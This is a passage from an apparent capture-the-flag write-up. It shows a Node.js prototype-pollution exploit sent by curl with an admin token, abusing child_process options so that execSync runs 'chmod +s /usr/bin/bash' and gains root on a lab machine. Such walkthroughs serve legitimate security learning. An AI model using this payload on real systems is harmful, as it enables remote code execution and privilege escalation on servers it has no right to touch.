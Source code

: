 ```json
        }
      },
      "/client": {
        "Methods": "GET",
        "Params": null
      },
      "/admin/messages": {
        "Methods": "POST",
        "Params": {
          "id": "messageid"
        }
      },
      "/admin/messages/send": {
        "Methods": "POST",
        "Params": {
          "text": "message text"
        }
      }
    }
  }
}
```

Now, we need to construct a paylaod that would pollute the `exec` function that comes after. What we would want to do is first create a new 'shell' using `/proc/self/exe` which would spawn another thread for us to execute the command we want. The only difficulty here is fitting it into a single JSON object, but the payload is available at Hacktricks under the `execSync` exploit.

As such, we can construct this command:

{% code overflow="wrap" %}
```bash
curl http://127.0.0.1:3000/admin/messages/send -H "X-Access-Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoidGVzdCIsImlzX2F1dGgiOnRydWUsInJvbGUiOiJhZG1pbiIsImlhdCI6MTY3MDM5MjcyMiwiZXhwIjoxNjcwMzk2MzIyfQ.Ry9ngHgkESmKPTU624I_p7rPSAKAky-B6H_Ddzk1duw" -H "content-type: application/json" -d '{"text":{"constructor":{"prototype":{"shell":"/proc/self/exe","argv0":"console.log(require(\"child_process\").execSync(\"chmod +s /usr/bin/bash\").toString())//","NODE_OPTIONS":"--require /proc/self/cmdline"}}}}'
```
{% endcode %}

This would call a child\_process to execute `chmod +s /usr/bin/bash`.&#x20;

<figure><img src="../../../.gitbook/assets/image (4) (4) (2) (1).png" alt=""><figcaption></figcaption></figure>

We are now root, and we can capture the root flag.

